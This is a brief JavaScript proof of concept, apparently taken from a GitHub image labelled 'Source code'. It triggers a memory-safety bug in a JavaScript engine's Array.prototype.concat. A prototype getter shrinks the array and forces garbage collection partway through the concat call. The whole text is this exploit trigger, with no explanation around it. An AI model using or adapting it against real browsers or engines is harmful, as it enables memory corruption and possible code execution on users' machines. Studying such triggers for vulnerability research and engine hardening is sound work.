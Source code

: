 
function gc()
{
    for(var i=0;i<((1024 * 1024)/0x10);i++)
    {
        var a= new String();
    }
}

array    = new Array(10)
array[0] = 1.1
array[2] = 2.1
array[3] = 3.1

var proto = {};
array.__proto__ = proto;

Object.defineProperty(
  proto, 1, {
    get() {
      array.length = 1;
      gc();
      return "value from proto";
    },
    set(new_value) { }
});

Array.prototype.concat.call(array);

